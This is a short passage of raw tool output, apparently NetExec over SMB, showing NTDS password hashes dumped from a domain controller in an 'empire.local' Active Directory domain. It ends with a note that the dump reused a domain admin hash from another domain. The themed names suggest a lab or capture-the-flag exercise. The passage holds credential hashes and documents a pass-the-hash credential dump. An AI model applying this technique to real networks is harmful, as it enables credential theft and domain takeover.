10.2.10.5 445 CORUSCANT empire.local\fn2225:1214:aad3b435b51404eeaad3b435b51404ee:6b38da59acab9fa793be227f9a5fde85::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2226:1215:aad3b435b51404eeaad3b435b51404ee:d2bca945c51aa09059bb50f535710743::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2227:1216:aad3b435b51404eeaad3b435b51404ee:8e8d1b41c0ec803410da85237f7136f7::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2228:1217:aad3b435b51404eeaad3b435b51404ee:bafba0bd8d85cb75bf5ede01364036fe::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2229:1218:aad3b435b51404eeaad3b435b51404ee:14d0715e891c5422c1e6d930c3d97fa9::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2230:1219:aad3b435b51404eeaad3b435b51404ee:583bed3491fe0ea4784c02735cebd791::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2231:1220:aad3b435b51404eeaad3b435b51404ee:52e65555193d8605afd0e8b9a0ab2ec8::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2232:1221:aad3b435b51404eeaad3b435b51404ee:f2392f954ac95e6cdefb54b4bf126adf::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2233:1222:aad3b435b51404eeaad3b435b51404ee:c030b2c09e689921eff8edda77670774::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2234:1223:aad3b435b51404eeaad3b435b51404ee:c3a9f13bd88c2e93f54ada86064d2f6a::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2235:1224:aad3b435b51404eeaad3b435b51404ee:8b7e69b6c41b592f7f124c1342c45633::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2236:1225:aad3b435b51404eeaad3b435b51404ee:a4abbdc65c0e1e01e17f8b77d3d63661::: SMB 10.2.10.5 445 CORUSCANT CORUSCANT$:1001:aad3b435b51404eeaad3b435b51404ee:a6d93f85b41ecd17b261ba3a6594ae8c::: SMB 10.2.10.5 445 CORUSCANT MUSTAFAR$:1104:aad3b435b51404eeaad3b435b51404ee:b1ce3ebf186d5652c070345cf8c2fd86::: SMB 10.2.10.5 445 CORUSCANT [+] Dumped 127 NTDS hashes to /home/stark/.nxc/logs/ntds/CORUSCANT_10.2.10.5_2025-11-20_091047.ntds of which 125 were added to the database
We have successfully dumped the entire hashes using the same hash from rebels.local domain admin.